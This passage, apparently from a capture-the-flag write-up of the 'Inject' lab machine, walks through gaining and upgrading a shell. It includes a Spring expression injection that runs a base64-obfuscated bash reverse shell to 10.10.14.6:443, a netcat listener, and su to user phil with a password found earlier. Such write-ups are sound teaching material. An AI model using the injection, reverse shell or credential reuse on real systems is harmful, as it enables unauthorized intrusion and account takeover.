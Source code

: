 

    T(java.lang.Runtime).getRuntime().exec("bash -c {echo,IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK}|{base64,-d}|bash")



Bash expands that to:



    T(java.lang.Runtime).getRuntime().exec("bash -c echo IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK|base64 -d|bash")



Whatever was causing it to fail in the Java layer doesn't fail any more,
and now it works!

#### Shell Upgrade

I'll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q)
using the `script` / `stty` technique:



    frank@inject:/$ script /dev/null -c bash\
    Script started, file is /dev/null 
    frank@inject:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    frank@inject:/$ 



## Shell as phil

With the file read in the website I already found a password,
"DocPhillovestoInject123". That password didn't work for SSH as phil:



    oxdf@hacky$ sshpass -p 'DocPhillovestoInject123' ssh phil@10.10.11.204
    Permission denied, please try again.



But it does work to `su` as phil:



    frank@inject:~$ su - phil
    Password: 
    phil@inject:~$



So why can't phil connect over SSH? They are explicitly denied in the
SSHd config (using `grep -v ^#` to remove lines that start with a
comment and `grep .` to select non-blank lines):
